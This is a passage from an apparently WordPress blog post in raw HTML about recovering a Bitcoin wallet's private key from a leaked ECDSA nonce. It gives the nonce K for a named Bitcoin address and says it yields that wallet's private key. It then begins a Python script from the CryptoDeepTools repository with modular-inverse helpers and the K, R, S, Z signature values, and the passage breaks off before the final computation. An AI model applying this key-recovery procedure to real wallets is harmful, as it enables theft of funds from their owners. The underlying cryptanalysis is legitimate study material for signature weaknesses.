 

<p class="has-text-color has-link-color has-large-font-size" style="color:#14895a"><strong>ALL IS TRUE!</strong></p>



<p class="has-text-color has-link-color" style="color:#4092c2"><code><strong>K = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c</strong></code></p>



<p>Now knowing the secret key, we can get the private key to the Bitcoin Wallet: <code><strong><a href="https://btc1.trezor.io/address/1LdNN9GXmoKZs5vrQFL1d4NL9GgZ1PfCZk" target="_blank" rel="noreferrer noopener">1LdNN9GXmoKZs5vrQFL1d4NL9GgZ1PfCZk</a></strong></code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">Let's use a&nbsp;<em>Python</em>&nbsp;script:&nbsp;<code><a href="https://github.com/demining/CryptoDeepTools/blob/main/32DeserializeSignatureVulnerability/calculate.py" target="_blank" rel="noreferrer noopener">calculate.py</a></code>&gt; &gt; &gt; Get the Private Key</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>Let's open the code and add all the signature values<code><strong>K, R, S, Z</strong></code></p>



<pre class="wp-block-code has-text-color has-link-color" style="color:#4092c2"><code><strong>def h(n):
    return hex(n).replace("0x","")

def extended_gcd(aa, bb):
    lastremainder, remainder = abs(aa), abs(bb)
    x, lastx, y, lasty = 0, 1, 1, 0
    while remainder:
        lastremainder, (quotient, remainder) = remainder, divmod(lastremainder, remainder)
        x, lastx = lastx - quotient*x, x
        y, lasty = lasty - quotient*y, y
    return lastremainder, lastx * (-1 if aa &lt; 0 else 1), lasty * (-1 if bb &lt; 0 else 1)

def modinv(a, m):
    g, x, y = extended_gcd(a, m)
    if g != 1:
        raise ValueError
    return x % m
    
N = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141


K = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c
R = 0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307
S = 0x74e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f
Z = 0xa79974cb42f82890fcebcb9865cd512a34479d91211e2ce383def10a7388cf63
